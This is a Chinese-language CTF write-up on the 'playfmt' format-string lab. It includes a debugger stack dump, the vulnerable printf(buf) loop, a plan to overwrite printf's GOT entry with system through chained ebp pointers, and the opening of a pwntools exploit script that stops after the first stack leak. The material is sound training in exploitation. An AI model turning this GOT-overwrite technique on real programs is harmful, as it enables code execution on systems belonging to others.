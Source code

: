 ```c
0c:0030│      0xffffd00c —▸ 0x80485b1 (main+42) ◂— nop        //偏移11
0d:0034│      0xffffd010 —▸ 0xf7fb33dc (__exit_funcs) —▸ 0xf7fb41e0 (initial) ◂— 0x0
0e:0038│      0xffffd014 —▸ 0xffffd030 ◂— 0x1
0f:003c│      0xffffd018 ◂— 0x0
10:0040│      0xffffd01c —▸ 0xf7e19637 (__libc_start_main+247) ◂— add    esp, 0x10
11:0044│      0xffffd020 —▸ 0xf7fb3000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x1b1db0
... ↓
13:004c│      0xffffd028 ◂— 0x0
14:0050│      0xffffd02c —▸ 0xf7e19637 (__libc_start_main+247) ◂— add    esp, 0x10
15:0054│      0xffffd030 ◂— 0x1
16:0058│      0xffffd034 —▸ 0xffffd0c4 —▸ 0xffffd290 ◂— 0x6d6f682f ('/hom')
17:005c│      0xffffd038 —▸ 0xffffd0cc —▸ 0xffffd2cb ◂— 'XDG_VTNR=7'
```

栈上的栈帧分布为：main->play->do_fmt，对应于3个非零ebp：`0xffffcff8 —▸ 0xffffd008 —▸ 0xffffd018`。

注意:不要想着利用printf函数内部的ebp，因为ebp的地址低于参数区，k不能设置为负数，而且还不便于多次利用。

```c++
int do_fmt()
{
  int result; // eax

  while ( 1 )
  {
    read(0, buf, 0xC8u);
    result = strncmp(buf, "quit", 4u);
    if ( !result )
      break;
    printf(buf);
  }
  return result;
}
```

由于存在while(1)循环，如果使用do_fmt自身的ebp位置和play自身的ebp位置，就可达到多次利用格式化字符串漏洞修改p_7=printf_got和p_11=printf_got+2的目的。

##### 图解思路

![利用思路题解](C:\Users\asus\spidermana.github.io\assets\img\hitconlab91.png)

注意：是不停的利用printf的格式化字符串漏洞【在不停的printf建栈和退栈中，完成的攻击过程，没有对do_fmt栈帧和play栈帧的退栈，因此可以构成攻击基础】。

修改后的情况【盗图，地址不对，但是思路一致】如下:

![img](https://upload-images.jianshu.io/upload_images/1731834-8206cd16fdb67dab.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/813/format/webp)

##### exp：

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *
context.log_level = 'debug'
p = process('./playfmt')
elf = ELF('./playfmt')
libc = ELF('/lib/i386-linux-gnu/libc.so.6')

printf_got = elf.got['printf']
system_libc = libc.symbols['system']  
printf_libc = libc.symbols['printf']  

p.recv()
log.info("**********leak printf_got************") 
payload = '%6$x'    #【%6$x获取ebp1下的内容，即ebp2】
p.sendline(payload)
```